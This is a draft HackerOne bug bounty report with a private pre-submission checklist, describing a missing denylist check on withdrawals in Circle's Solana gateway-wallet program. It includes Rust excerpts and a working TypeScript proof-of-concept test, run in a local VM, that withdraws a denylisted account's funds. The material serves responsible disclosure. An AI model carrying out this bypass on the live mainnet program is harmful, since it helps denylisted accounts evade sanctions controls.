





# ⚠️ REVIEW CHECKLIST — READ BEFORE SUBMITTING, THEN DELETE THIS SECTION

Everything below the `---` line is the actual report — copy from there down. This section above the line is only for you; do not paste it.

Before copying/pasting and submitting, check:

- [ ] Scope confirmed — the affected asset is in the program's scope RIGHT NOW (scope can change; re-confirm on the program page before submitting)
- [ ] Category confirmed — matches a category the program declares eligible for a reward (not metadata/cosmetic)
- [ ] Evidence checked — the code excerpts and the PoC output below really exist/ran as described
- [ ] Not a duplicate — checked against reports already submitted; also do a fresh search on the program page right before submitting (a live public program with real activity can get new duplicates fast — this session already lost a race on a different finding)
- [ ] Screenshots attached — HackerOne needs these as separate file uploads on the submission form, not as pasted Markdown; the `` embeds below are for viewing this report locally/on GitHub, not for pasting into the report text box
- [ ] **`01-poc-execution.png` re-cropped or retaken** (see below) — the current file shows my local machine's directory layout and WSL setup in the command line, which has no business going to Circle

**Screenshots (2026-08-31):** 5 real screenshots, taken by you following the guide, verified here by actually looking at each one — all accurate, all legible, all matching the code/output already in this report. Files at `research/bugbounty/reports/screenshots/circle-bbp-solana-gateway-denylist-withdrawal/`. The submittable body now calls them out by number in the actual prose (not just the `` embeds, which won't survive being pasted as plain text) — **upload them to HackerOne in this exact order so "Screenshot N" in the text matches attachment N**:

1. `01-poc-execution.png` (once fixed — see below) — Screenshot 1
2. `02-deposit-rs.png` — Screenshot 2
3. `03-initiate-withdrawal-rs.png` — Screenshot 3
4. `04-withdrawal-rs.png` — Screenshot 4
5. `05-utils-rs.png` — Screenshot 5

`01` shows a third independent run (different tx signature again) — three separate live executions now, same deterministic result every time.

**Problem with `01-poc-execution.png`, needs fixing before you send anything to Circle:** the top of that screenshot shows the actual command line — `wsl -d kali-linux -- bash -c "cd /mnt/e/dev-toolchains/solana-poc/solana-gateway-contracts && ..."`. That reveals my local folder structure and WSL distro name, which is irrelevant to Circle and not something an external report should expose (it's not a security issue, just unprofessional clutter — reads like an internal note leaked into a customer-facing document). I can't edit pixels in an existing image, so pick one:

1. **Simplest — re-crop what you already have.** Open the PNG in Paint (or any editor) and crop off the top few lines, keeping only from `============================================================` (the first banner line) down through `1 passing`. Nothing about the command needs to be visible — the output alone tells the whole story.
2. **Cleanest — retake it.** Open a new terminal, run the same command from the guide again, wait for it to finish, then before screenshotting, scroll the window up (or just drag the Win+Shift+S selection box) so it starts at the `PS ...>` prompt line is excluded — capture only from the first `====` line to `1 passing`.

Either way, replace `research/bugbounty/reports/screenshots/circle-bbp-solana-gateway-denylist-withdrawal/01-poc-execution.png` with the fixed version before uploading anywhere.

**Live-verified 2026-08-31:** `circlefin/solana-gateway-contracts`, type "Smart contract", **In scope**, max severity **Critical**, **Eligible**, on `hackerone.com/circle-bbp`.

**Deployment status (re-verified 2026-08-31, supersedes the note below from an earlier draft):** Circle Gateway **is now live on Solana mainnet** — confirmed live via public RPC (`getAccountInfo` against `mainnet-beta`, `executable: true`, owned by the standard upgradeable BPF loader) and via Circle's own `circlefin/skills` reference repo, which cites this as the official mainnet `gateway-wallet` address: **`GATEwy4YxeiEbRJLwB6dXgg7q61e6zBPrMzYj5h1pRXQ`**. As of January 2026 Circle's own blog described Solana support as pre-launch (a separate pre-mint address, no program deployed yet); by August 2026 Circle's own materials list Solana among Gateway's actively supported chains. **This means real user funds are now at risk, not hypothetical future risk** — the impact below should be read as current, not "before launch."

The `devN7ZZFhGVTgwoKHaDDTFFgrhRzSGzuC6hgVFPrxbs` program ID referenced under "Affected asset" below was found during an earlier pass and has not been independently re-confirmed as mainnet — treat `GATEwy4YxeiEbRJLwB6dXgg7q61e6zBPrMzYj5h1pRXQ` (above) as the current, verified mainnet address; reconcile the two before submitting.

**Timing note:** don't sit on this one. This session already lost report-priority on a related Circle finding (arc-remote-signer) to another researcher who submitted first, even though our analysis was independently confirmed correct by Circle's own triage team.

**⚠️ Read this before deciding to submit — real precedent risk:** The identical behavior on this program's EVM counterpart (`evm-gateway-contracts::Withdrawals.sol`, same missing check on `initiateWithdrawal`/`withdraw`) is **not an open/paid vulnerability** — Circle's own commissioned audit (ChainSecurity, "PUBLIC Code Assessment of the Circle Gateway Smart Contracts," 2025-07-08) documents this exact behavior in section 8.1 ("Denylist on GatewayWallet and GatewayMinter") as a **Note**, not a finding requiring a fix: *"The GatewayWallet prevents denylisted accounts from depositing tokens into the contract, updating delegations, or bridging... However, denylisted users can still withdraw their tokens from the wallet contract."* That's Circle treating this exact behavior as accepted design on the EVM side. Neither public Circle Gateway audit (ChainSecurity or OtterSec) covers the Solana program at all, so this specific instance genuinely hasn't been publicly disclosed anywhere found — it may still be legitimately reportable as a novel finding on a different codebase. But there is a real, material chance Circle applies the same "accepted design" reasoning here and closes this as informative/not-applicable rather than paying it. Go in with that expectation, not as a slam-dunk.

**Revised 2026-08-31 (report-writing pass, before first submission):** title/Summary/Impact tightened, a "Key PoC observation" section added to pre-empt the false-positive question, and severity is no longer self-asserted as Critical (the demonstrated impact is a denylisted account bypassing its *own* funds' restriction, not cross-account theft — let HackerOne's own calculator decide). The EVM-precedent paragraph above was deliberately kept OUT of the submittable Summary — it doesn't change any fact about the Solana-specific evidence, and volunteering it up front risks anchoring a triager toward "known accepted design" before they've read the Solana proof. You already have the full context here for your own judgment call; nothing below assumes you didn't.

**Revised again 2026-08-31 (second pass):** Evidence reordered to lead with `deposit.rs` (the check that DOES exist) before the two files where it's missing, added a real `utils.rs` excerpt (`is_account_denylisted`, fetched fresh from the pinned commit, not paraphrased), trimmed the Anchor-macro paragraph to one plain sentence, and replaced "Commit: master" with the exact SHA (confirmed live against the GitHub API as still-current `HEAD`). Also added one neutral sentence near the end noting the EVM implementation was reviewed separately, without repeating the ChainSecurity "accepted design" characterization in the submittable body — full detail stays here, above the line. Separately: I dug into whether "accepted design" is really Circle's own position or just one auditor's read of a different codebase — checked Circle's own EVM contract-interfaces documentation directly, and it does NOT state anywhere that withdrawal-during-denylist is intended behavior; that characterization exists only in ChainSecurity's audit note, not in Circle's own developer-facing docs, and doesn't cover Solana at all. Doesn't eliminate the risk, but the "it's just design" defense rests on thinner ground than it might sound.

**Re-verified live 2026-08-31 (third pass, PoC re-run):** The exact PoC test was re-run for real (not replayed) via the cached toolchain at `E:\dev-toolchains\solana-poc\solana-gateway-contracts`, at the same pinned commit, through WSL (native Windows Node can't load `litesvm`'s native binding — that package ships Linux/macOS binaries only, no Windows one, confirmed by checking its `optionalDependencies`). New transaction signature each run (expected, LiteSVM-generated), identical deterministic numbers every time (1,000,000 → 2,000,000, `AccountDenylisted` on the control check). The PoC's `console.log` calls were also rewritten into a clearer step-by-step banner format for screenshot purposes — zero change to any assertion or program logic, purely presentational. See the file itself at that path if you want to re-run it again before submitting.

---

## Title
Denylist bypass allows denied accounts to withdraw previously deposited funds

## Program / Platform
Circle BBP via HackerOne — https://hackerone.com/circle-bbp

## Category / Severity
Broken access control / missing authorization check (CWE-862) in a Solana smart contract handling user token custody. `asset_type: Smart contract`, `eligible_for_bounty: true` (confirmed live on the program's scope page). I'm not self-asserting a severity level: the program's scope allows up to `max_severity: critical` for this asset, but that's a ceiling for the asset class, not an assessment of this specific finding. The demonstrated impact here is a denylisted account bypassing the denylist to withdraw *its own* pre-existing balance — not access to another account's funds, fund creation, or any protocol-wide compromise (see Impact below for the explicit boundary). I'd leave severity to HackerOne's own calculator/triage rather than claim Critical based only on the asset's ceiling.

## Affected asset
- Repository: `circlefin/solana-gateway-contracts`
- Program: `gateway-wallet` (Anchor, program ID `devN7ZZFhGVTgwoKHaDDTFFgrhRzSGzuC6hgVFPrxbs`)
- Files: `programs/gateway-wallet/src/instructions/initiate_withdrawal.rs`, `programs/gateway-wallet/src/instructions/withdrawal.rs`, `programs/gateway-wallet/src/state.rs`, `programs/gateway-wallet/src/utils.rs`
- Commit: `909373cdee3aad9e06fe37b599f9d29160f7ca4c` (confirmed via the GitHub API as the current `HEAD` of `master` on 2026-08-31 — this is not a snapshot from an older analysis pass)
- Deployment: `gateway-wallet` is live on Solana mainnet at `GATEwy4YxeiEbRJLwB6dXgg7q61e6zBPrMzYj5h1pRXQ` — confirmed via a live `getAccountInfo` query against `mainnet-beta` (`executable: true`, owned by the standard upgradeable BPF loader), and cited as the official mainnet `gateway-wallet` address in Circle's own `circlefin/skills` reference repository.

## Summary
The Solana `gateway-wallet` program enforces its denylist on deposits and delegation operations, but does not enforce it on withdrawals.

A depositor can deposit funds while permitted, become denylisted afterward, and still call `initiate_withdrawal` followed by `withdraw` to recover the full pre-existing balance. Neither withdrawal instruction declares or checks the depositor's denylist PDA, while the corresponding deposit path explicitly rejects denylisted accounts.

I reproduced this behavior against the real compiled `gateway-wallet` program using the project's own `GatewayWalletTestClient` and an in-process Solana VM (full execution in **Screenshot 1**). The test first deposited 1,000,000 tokens, denylisted the depositor, confirmed that a subsequent new deposit was rejected, and then successfully withdrew the entire 1,000,000-token pre-existing balance.

This demonstrates that the denylist is effective against new deposits but does not prevent a denylisted account from withdrawing funds already held by the program.

## Confirmed call chain
1. `instructions/deposit.rs` and `instructions/deposit_for.rs` load an `UncheckedAccount depositor_denylist` (seeds `[DENYLIST_SEED, owner/depositor]`) and call `require!(!utils::is_account_denylisted(...), GatewayWalletError::AccountDenylisted)` before accepting a deposit (**Screenshot 2**).
2. `instructions/add_delegate.rs` and `remove_delegate.rs` run the same check for both the depositor and the delegate.
3. `utils.rs::is_account_denylisted` checks only `!denylist_account.data_is_empty()` — the PDA's mere existence (created by `instructions/denylist.rs` via `init_if_needed`, no data fields) is the denylist signal (**Screenshot 5**).
4. `instructions/initiate_withdrawal.rs` (`InitiateWithdrawalContext`) does **not** declare a denylist account in its `Accounts` struct. Its only gate is `!gateway_wallet.paused`. No `require!` involving denylist anywhere in the file (**Screenshot 3**).
5. `state.rs::GatewayDeposit::initiate_withdrawal` (called by the handler) only validates `amount > 0`, supported token, and sufficient available balance — no denylist check.
6. `instructions/withdrawal.rs` (`WithdrawContext`) also only checks `!gateway_wallet.paused`. No denylist account, no denylist check (**Screenshot 4**).
7. `state.rs::GatewayDeposit::complete_withdrawal` only debits `withdrawing_amount` and performs the `token::transfer` CPI — no denylist check.

## Steps to reproduce
1. Depositor deposits funds into `gateway-wallet` for a supported token (normal `deposit` flow — succeeds, not denylisted yet).
2. Program denylister calls `denylist` on that depositor's account (normal `denylist` flow — succeeds).
3. Depositor calls `initiate_withdrawal` for their existing balance. **This succeeds** — no denylist check exists on this instruction.
4. After the program's withdrawal delay elapses, depositor calls `withdraw`. **This succeeds** — no denylist check exists on this instruction either. Funds are transferred to the depositor's token account in full.

This exact sequence was executed end to end against the real compiled program — see **Screenshot 1** and the "Executable proof of concept" section below.

## Evidence

**1. `deposit.rs` — the denylist check that the program DOES apply on the deposit path (Screenshot 2):**
```rust
// instructions/deposit.rs — DepositContext
/// CHECK: Depositor denylist PDA. Account is denylisted if it exists at the expected PDA.
#[account(seeds = [DENYLIST_SEED, owner.key().as_ref()], bump)]
pub depositor_denylist: UncheckedAccount<'info>,
// ... and in the handler:
// require!(!utils::is_account_denylisted(&ctx.accounts.depositor_denylist), GatewayWalletError::AccountDenylisted);
```

*Denylist enforcement exists on the deposit path — `deposit.rs`, lines 37-91 at the pinned commit.*

**2. `initiate_withdrawal.rs` — the same check does not exist at the start of a withdrawal (Screenshot 3):**
```rust
// instructions/initiate_withdrawal.rs — InitiateWithdrawalContext
#[event_cpi]
#[derive(Accounts)]
pub struct InitiateWithdrawalContext<'info> {
    #[account(mut)]
    pub depositor: Signer<'info>,

    #[account(
        seeds = [GATEWAY_WALLET_SEED],
        bump = gateway_wallet.bump,
        constraint = !gateway_wallet.paused @ GatewayWalletError::ProgramPaused
    )]
    pub gateway_wallet: Box<Account<'info, GatewayWallet>>,

    #[account(
        mut,
        seeds = [GATEWAY_DEPOSIT_SEED, deposit.token_mint.key().as_ref(), depositor.key().as_ref()],
        bump = deposit.bump
    )]
    pub deposit: Account<'info, GatewayDeposit>,
    // no denylist account declared anywhere in this struct
}
```

*`initiate_withdrawal` has no denylist account or denylist check — full `InitiateWithdrawalContext` struct plus the start of the handler, lines 33-62.*

**3. `withdrawal.rs` — nor at the completion of a withdrawal (Screenshot 4):**
```rust
// instructions/withdrawal.rs — WithdrawContext
#[event_cpi]
#[derive(Accounts)]
pub struct WithdrawContext<'info> {
    #[account(mut)]
    pub depositor: Signer<'info>,

    #[account(
        seeds = [GATEWAY_WALLET_SEED],
        bump = gateway_wallet.bump,
        constraint = !gateway_wallet.paused @ GatewayWalletError::ProgramPaused
    )]
    pub gateway_wallet: Box<Account<'info, GatewayWallet>>,

    #[account(mut, token::authority = gateway_wallet, seeds = [...], bump = ...)]
    pub custody_token_account: Account<'info, TokenAccount>,

    #[account(mut, token::mint = custody_token_account.mint, token::authority = depositor)]
    pub depositor_token_account: Account<'info, TokenAccount>,

    #[account(mut, seeds = [...], bump = deposit.bump, constraint = deposit.token_mint == custody_token_account.mint)]
    pub deposit: Account<'info, GatewayDeposit>,

    pub token_program: Program<'info, Token>,
    // no denylist account declared anywhere in this struct
}
```

*`withdraw` also lacks denylist enforcement — full `WithdrawContext` struct, lines 34-69.*

`InitiateWithdrawalContext` and `WithdrawContext` do not receive the denylist PDA and contain no denylist check. The absence is demonstrated by the code itself.

**4. `utils.rs` — how the denylist check that IS applied on deposit is determined (Screenshot 5):**
```rust
// utils.rs — the same function deposit.rs/add_delegate.rs/remove_delegate.rs all call
pub fn is_account_denylisted<'info>(denylist_account: &UncheckedAccount<'info>) -> bool {
    // If account has no data, user is not denylisted
    !denylist_account.data_is_empty()
}
```

*Denylist state is determined by the existence of the depositor's denylist PDA — `utils.rs`, lines 37-40.*

## Executable proof of concept
Built the real `gateway-wallet` program from source (`cargo-build-sbf`, official Solana/Agave CLI, no reimplementation) and generated the real Anchor IDL (`anchor-cli` 0.31.1). Ran the test against the real compiled program using `litesvm` (an in-process Solana VM) via **the project's own real test helper class**, `GatewayWalletTestClient` from `tests/gateway-wallet/test_client.ts` — the exact same client the project's own `deposit.test.ts`/`withdrawal.test.ts`/`denylist.test.ts` use, not a custom reimplementation.

### What is mine vs. what is the target's

Two distinct pieces of code are involved, and it matters which is which:

- **`tests/gateway-wallet/test_client.ts`** — part of `circlefin/solana-gateway-contracts` itself, written by the Circle Gateway team and already used by their own `deposit.test.ts`/`withdrawal.test.ts`/`denylist.test.ts`. I did not write or modify this file. It just wraps sending real instructions (`deposit`, `denylist`, `initiateWithdrawal`, `withdraw`, ...) to the compiled program and reading back real account state — it contains no logic related to the bug.
- **`tests/gateway-wallet/poc_denylist_withdrawal_bypass.test.ts`** — a new file I added locally to drive that existing client through the specific sequence that demonstrates this bug. It is not part of the target repository and was never pushed anywhere; it only calls the target's own public test-client methods in a particular order and prints the results. Full source, unmodified except for the `console.log` wording (no assertion or program logic was changed for presentation):

```typescript
import { LiteSVM } from "litesvm";
import { GatewayWalletTestClient } from "./test_client";
import { expect } from "chai";
import { Keypair } from "@solana/web3.js";

const banner = () => console.log("=".repeat(60));

describe("PoC: denylisted depositor can still withdraw pre-existing balance", () => {
  it("withdrawal succeeds even though depositor was denylisted after depositing", async () => {
    banner();
    console.log("PoC: Denylisted account can withdraw pre-existing funds");
    banner();
    const svm = new LiteSVM();
    const testClient = new GatewayWalletTestClient(svm);
    await testClient.initialize({ localDomain: 5, withdrawalDelay: 1 });

    const testTokenMint = await testClient.createTokenMint(
      testClient.owner.publicKey,
      6
    );
    await testClient.addToken({ tokenMint: testTokenMint });

    const depositor = Keypair.generate();
    svm.airdrop(depositor.publicKey, BigInt(1_000_000_000));

    const userTokenAccount = await testClient.createTokenAccount(
      testTokenMint,
      depositor.publicKey
    );
    await testClient.mintToken(
      testTokenMint,
      userTokenAccount,
      2_000_000,
      testClient.owner
    );
    console.log("[1] Initial balance");
    console.log(
      "    Depositor token balance:",
      (await testClient.getTokenAccountBalance(userTokenAccount)).toLocaleString()
    );

    // Depositor deposits BEFORE being denylisted.
    await testClient.deposit(
      {
        tokenMint: testTokenMint,
        amount: 1_000_000,
        fromTokenAccount: userTokenAccount,
      },
      { owner: depositor }
    );
    console.log("[2] Deposit before denylist");
    console.log("    Amount: 1,000,000");
    console.log("    Result: SUCCESS");

    // Denylist the depositor AFTER they already have funds in the program.
    await testClient.denylist({ account: depositor.publicKey });
    const denylistAccount = await testClient.getDenylistAccount(
      depositor.publicKey
    );
    expect(denylistAccount, "denylist account should exist").to.not.be.null;
    console.log("[3] Denylist depositor");
    console.log("    Result: SUCCESS");

    // Sanity check: a NEW deposit from the now-denylisted account IS correctly
    // blocked -- confirms the denylist mechanism itself works, and that this
    // account is genuinely denylisted from the program's own point of view.
    let newDepositWasBlocked = false;
    let newDepositError = "";
    try {
      await testClient.deposit(
        {
          tokenMint: testTokenMint,
          amount: 1,
          fromTokenAccount: userTokenAccount,
        },
        { owner: depositor }
      );
    } catch (err) {
      newDepositWasBlocked = true;
      newDepositError = String(err).includes("AccountDenylisted") ? "AccountDenylisted" : String(err).slice(0, 80);
    }
    console.log("[4] Attempt NEW deposit after denylist");
    console.log("    Amount: 1");
    console.log("    Result:", newDepositWasBlocked ? "REJECTED" : "ACCEPTED (unexpected)");
    if (newDepositWasBlocked) console.log("    Error:", newDepositError);
    expect(newDepositWasBlocked, "new deposit from denylisted account must be rejected")
      .to.be.true;

    // THE BUG: initiateWithdrawal + withdraw of the balance deposited BEFORE
    // the denylist should also be blocked for a denylisted account, but the
    // real program code (InitiateWithdrawalContext / WithdrawContext) never
    // declares or checks a denylist account at all.
    await testClient.initiateWithdrawal(
      { tokenMint: testTokenMint, amount: 1_000_000 },
      depositor
    );
    console.log("[5] Initiate withdrawal of pre-existing balance");
    console.log("    Amount: 1,000,000");
    console.log("    Result: SUCCESS");

    const depositPDA = testClient.getDepositPDA(
      testTokenMint,
      depositor.publicKey
    );
    const depositAccount =
      await testClient.gatewayWalletProgram.account.gatewayDeposit.fetch(
        depositPDA.publicKey
      );
    svm.warpToSlot(BigInt(depositAccount.withdrawalBlock.toNumber() + 1));

    const balanceBefore = await testClient.getTokenAccountBalance(
      userTokenAccount
    );

    const txSig = await testClient.withdraw(
      { tokenMint: testTokenMint, toTokenAccount: userTokenAccount },
      depositor
    );
    console.log("[6] Complete withdrawal");
    console.log("    Result: SUCCESS");

    const balanceAfter = await testClient.getTokenAccountBalance(
      userTokenAccount
    );

    banner();
    console.log("RESULT");
    banner();
    console.log("Denylisted before withdrawal:", denylistAccount !== null ? "TRUE" : "FALSE");
    console.log("Balance before withdrawal:   ", balanceBefore.toLocaleString());
    console.log("Balance after withdrawal:    ", balanceAfter.toLocaleString());
    console.log("Amount withdrawn:            ", (balanceAfter - balanceBefore).toLocaleString());
    console.log("tx:                          ", txSig);
    console.log("UNAUTHORIZED WITHDRAWAL ACCEPTED");
    banner();

    expect(balanceAfter).to.equal(balanceBefore + BigInt(1_000_000));
  });
});
```

Every call in this file (`deposit`, `denylist`, `initiateWithdrawal`, `withdraw`, balance reads) goes through `test_client.ts`'s existing methods, which in turn send real Anchor instructions to the real compiled program running inside `litesvm`. Nothing here simulates the vulnerable code path or asserts a made-up outcome — the two `expect()` calls are the only assertions, and both check real values read back from the program after real instructions executed.

Test sequence:
1. Initialize the program, add a token mint, mint 2,000,000 units to a fresh depositor's token account.
2. Depositor deposits 1,000,000 units into `gateway-wallet` (normal `deposit` call, succeeds — not denylisted yet).
3. Denylister denylists the depositor (normal `denylist` call, succeeds).
4. **Sanity check**: depositor attempts a NEW deposit of 1 unit. This is correctly **rejected** — confirms the denylist mechanism itself works, and that this account is genuinely denylisted from the program's own point of view.
5. Depositor calls `initiate_withdrawal` for the full 1,000,000 balance deposited in step 2 (before being denylisted). **Succeeds.**
6. After the withdrawal delay, depositor calls `withdraw`. **Succeeds.** Funds are transferred.

### Key PoC observation
The most important control test is step [4] below: the denylisted account cannot perform a new deposit (`REJECTED`, error `AccountDenylisted`), while the exact same denylisted account can initiate and complete a withdrawal (steps [5]-[6], both `SUCCESS`). This rules out a false positive caused by the denylist setup or an incorrectly denylisted account — the account was demonstrably denylisted, by the program's own error, at the moment the withdrawal was authorized.

Real output (literal, re-verified live on 2026-08-31 against the pinned commit above — this is a fresh, independent run, not a copy of an earlier one; the transaction signature is different each run by design, everything else is deterministic). **Screenshot 1** is a separate, independently re-run capture of this same test from a plain terminal window:
```
============================================================
PoC: Denylisted account can withdraw pre-existing funds
============================================================
[1] Initial balance
    Depositor token balance: 2,000,000
[2] Deposit before denylist
    Amount: 1,000,000
    Result: SUCCESS
[3] Denylist depositor
    Result: SUCCESS
[4] Attempt NEW deposit after denylist
    Amount: 1
    Result: REJECTED
    Error: AccountDenylisted
[5] Initiate withdrawal of pre-existing balance
    Amount: 1,000,000
    Result: SUCCESS
[6] Complete withdrawal
    Result: SUCCESS
============================================================
RESULT
============================================================
Denylisted before withdrawal: TRUE
Balance before withdrawal:    1,000,000
Balance after withdrawal:     2,000,000
Amount withdrawn:             1,000,000
tx:                           5fWLeusEMbfKPBNDNSBSw7eQwQucsEUnnJGWcKBFq9QHHrK86dk3fZZVde2XVX5Q2TGLwZa3TQPZN1zJAQQfvVu6
UNAUTHORIZED WITHDRAWAL ACCEPTED
============================================================
    ✔ withdrawal succeeds even though depositor was denylisted after depositing (873ms)

  1 passing (875ms)
```

*Executable PoC — denylisted account successfully withdraws its pre-existing balance. This is a separate live run from the literal text above (same command, run again from a plain PowerShell window) — different transaction signature (`4YFCbs5U...`) than the text block's `5fWLeusE...`, identical deterministic numbers. Two independent runs, same result.*

**⚠️ Before uploading `01-poc-execution.png`, see the note in the checklist above — it currently shows the command line with a local path, which needs to be cropped or replaced before this goes to Circle.**

## Impact
A denylisted account can retain and withdraw funds that were deposited before the denylist action.

The program clearly treats the denylist as an access-control mechanism: denylisted accounts are rejected when attempting new deposits, and the same denylist check is also applied to delegation operations. However, the withdrawal path does not enforce the same restriction.

As demonstrated by the PoC, an account can:
1. Deposit 1,000,000 tokens while not denylisted.
2. Become denylisted.
3. Be rejected when attempting a new deposit, confirming that the denylist is active.
4. Successfully initiate withdrawal of the previously deposited 1,000,000 tokens.
5. Successfully complete the withdrawal and receive the full balance.

